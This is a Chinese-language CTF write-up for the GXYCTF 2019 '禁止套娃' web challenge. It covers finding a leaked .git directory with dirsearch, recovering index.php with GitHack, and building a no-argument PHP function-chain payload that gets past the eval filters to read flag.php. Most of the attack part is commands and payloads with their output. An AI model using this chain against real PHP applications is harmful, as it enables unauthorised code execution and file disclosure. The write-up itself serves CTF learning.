 ![[Pasted image 20221114101936.png]]

---
首页长这样

![[Pasted image 20221114101945.png]]

然后好像就没有然后了QAQ

---
尝试使用`dirsearch`进行目录扫描
```shell
./dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1
```

```python
# Dirsearch started Mon Nov 14 10:28:50 2022 as: /home/chen/Desktop/proj/repos/dirsearch/dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1

301   185B   http://xxx.node4.buuoj.cn/.git    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/branches/
200   267B   http://xxx.node4.buuoj.cn/.git/COMMIT_EDITMSG
200    92B   http://xxx.node4.buuoj.cn/.git/config
200    73B   http://xxx.node4.buuoj.cn/.git/description
200    23B   http://xxx.node4.buuoj.cn/.git/HEAD
403   169B   http://xxx.node4.buuoj.cn/.git/hooks/
200   137B   http://xxx.node4.buuoj.cn/.git/index
403   169B   http://xxx.node4.buuoj.cn/.git/info/
200   240B   http://xxx.node4.buuoj.cn/.git/info/exclude
403   169B   http://xxx.node4.buuoj.cn/.git/logs/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/HEAD
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/heads/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads/master
403   169B   http://xxx.node4.buuoj.cn/.git/objects/
403   169B   http://xxx.node4.buuoj.cn/.git/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/heads/
200    41B   http://xxx.node4.buuoj.cn/.git/refs/heads/master
301   185B   http://xxx.node4.buuoj.cn/.git/refs/tags    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/tags/
```
发现可能存在`git`源码泄露，使用`GitHack`获取源码
```shell
chen@cracktc-no-omen ~/D/p/r/GitHack (master)> ./GitHack.py http://xxx.node4.buuoj.cn/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```
---
index.php
```php
<?php  
include "flag.php";  
echo "flag在哪里呢？<br>";  
if(isset($_GET['exp'])){  
   if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {  
       if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {  
           if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {  
               // echo $_GET['exp'];  
               @eval($_GET['exp']);  
           }  
           else{  
               die("还差一点哦！");  
           }  
       }  
       else{  
           die("再好好想想！");  
       }  
   }  
   else{  
       die("还想读flag，臭弟弟！");  
   }  
}  
// highlight_file(__FILE__);  
?>
```
只接受函数套函数的形式，禁止套娃.jpg

---
# 思路
主要就是想办法只通过函数的嵌套搞出`'.'`，从而通过`scandir('.');`来获得目录下的文件，再通过数组操作取`flag.php`传给`highlight_file`函数，达到获取`flag`的目的

---
# 获取`'.'`
搜索得知，`localeconv()`函数能够返回区域格式相关的信息
```php
/?exp=var_dump(localeconv());
```

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
通过`current`函数可以取该数组的第一个元素，也就是小数点`.`
```php
/?exp=var_dump(current(localeconv()));
```

```php
string(1) "."
```
---
# 获取目录文件
```php
/?exp=var_dump(scandir(current(localeconv())));
```

```php
array(5) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
}
```

# 获取`'flag.php'`
`'flag.php'`在数组的倒数第二个位置

可以通过`array_reverse`函数将数组倒序返回，再利用`next`函数取第二个元素
```php
/?exp=var_dump(next(array_reverse(scandir(current(localeconv())))));
```

```php
string(8) "flag.php"
```

# 读取`flag.php`
```php
/?exp=var_dump(highlight_file(next(array_reverse(scandir(current(localeconv()))))));
```

```php
<?php
$flag = "flag{b0706baf-2c5c-4499-8a5e-8961814c3bf6}";
?>
```

---
这篇大佬写的wp还介绍了更多无参数RCE的骚操作

https://johnfrod.top/ctf/gxyctf-2019禁止套娃/

#Web #PHP #git泄露 #目录爆破 #数组 #函数 #RCE #无参数